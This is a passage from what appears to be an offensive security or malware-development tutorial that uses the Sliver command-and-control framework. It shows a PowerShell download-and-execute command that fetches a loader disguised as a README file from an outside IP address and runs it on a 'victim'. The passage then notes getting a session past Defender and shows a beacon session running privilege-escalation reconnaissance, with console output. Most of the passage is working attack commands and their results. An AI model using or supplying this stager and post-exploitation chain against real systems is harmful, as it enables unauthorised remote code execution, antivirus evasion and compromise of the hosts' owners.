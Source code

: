 ![Sliver FilelessPELoader](/assets/images/maldev/sliver-FilelessPELoader.png)

### Encrypted Stager Execution
Our PowerShell loader can be hosted on a webserver as a normal file. On the victim, the following command executes the download and staging of the agent which will result in an incoming session in sliver.

```powershell
PS C:\> (New-Object System.Net.WebClient).DownloadString('http://192.168.129.40/README.md') | IEX
```

In a minute we should get a session in Sliver with Defender stopping us.

![Sliver Session](/assets/images/maldev/sliver-session.png)

### Privilege Escalation
Since we now have an active beacon on our target, we can even go a step further and escalate privileges on the host.
Use one of the beacons and run `sa-whoami` (installed via armory). This will run a `whoami /all` in a more safe way.

```console
[server] sliver (ESSENTIAL_THEATER) > sa-whoami 

[*] Tasked beacon ESSENTIAL_THEATER (f91cc40c)

[+] ESSENTIAL_THEATER completed task f91cc40c

[*] Successfully executed sa-whoami (coff-loader)
[*] Got output:

UserName        SID
====================== ====================================
DESKTOP-3GMRMMT\John    S-1-5-21-2723216276-469661999-718104327-1001


GROUP INFORMATION                                 Type                     SID                                          Attributes               
```